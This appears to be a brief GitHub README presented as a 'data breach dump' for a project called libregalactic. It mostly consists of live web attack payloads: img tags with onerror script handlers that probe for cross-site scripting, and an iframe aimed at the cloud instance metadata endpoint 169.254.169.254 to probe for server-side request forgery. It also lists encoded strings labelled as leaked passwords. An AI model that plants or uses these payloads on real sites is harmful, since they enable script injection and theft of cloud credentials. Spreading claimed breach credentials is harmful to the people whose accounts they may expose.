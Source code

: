 # data-breach-dump
libregalactic data breach dump data

<img src=1 onerror=alert(0);>

<img src="test" onerror=alert(0);>

<iframe src="http://169.254.169.254/latest/meta-data/">

USERS

PASSWORDS 

jGZ/kMsxCmyNGSsJTVtCsK9sfps7dopEM/6gvOJntw

SZnRShZArZaSfMX9lsQYlt9q9HT1affsHxm0iA1b1Q

572wjVqgNsvq63B2g68qXu5pMJZVvcZJwN/AUvhY4w

F1cRb4FUaOalSckEOJ+xP8MesDfFOZd4kBVv8YMNpg==

